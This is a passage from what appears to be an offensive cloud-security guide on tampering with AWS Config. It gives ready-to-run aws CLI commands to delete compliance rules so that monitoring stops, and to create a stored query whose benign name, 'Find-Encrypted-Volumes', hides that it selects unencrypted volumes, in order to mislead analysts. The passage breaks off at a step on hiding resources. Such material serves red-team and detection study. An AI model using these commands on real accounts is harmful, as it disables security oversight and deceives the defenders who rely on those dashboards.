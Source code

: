 ### Chain 3: Deleting Config Rules

Remove compliance monitoring to evade detection.

**Goal:** Eliminate specific security checks that might flag your activities.

#### 1. List All Config Rules

```bash
aws configservice describe-config-rules | \
  jq -r '.ConfigRules[] | .ConfigRuleName'
```

#### 2. Delete a Specific Rule

```bash
aws configservice delete-config-rule --config-rule-name "s3-bucket-public-read-prohibited"
```

#### 3. Verify Deletion

```bash
aws configservice describe-config-rules | \
  jq '.ConfigRules[] | select(.ConfigRuleName == "s3-bucket-public-read-prohibited")'
# Should return empty
```

**Impact:**
- Specific compliance checks no longer run
- Resources may violate policy without detection
- **High detection probability** - deletion events are logged

---

### Chain 4: Deception via Stored Queries

Mislead analysts or hide your resources from their dashboards.

**Goal:** Create a query with a benign name but a malicious purpose.

#### 1. Create a Deceptive Query

This example creates a query named "Find-Encrypted-Volumes" that actually finds **unencrypted** volumes:

```bash
aws configservice put-stored-query --stored-query \
'{
    "QueryName": "Find-Encrypted-Volumes",
    "Description": "Lists all EBS volumes that are encrypted per company policy.",
    "Expression": "SELECT resourceId, resourceName WHERE resourceType = '\''AWS::EC2::Volume'\'' AND configuration.encrypted = false"
}'
```

#### 2. Create a Query to Hide Resources
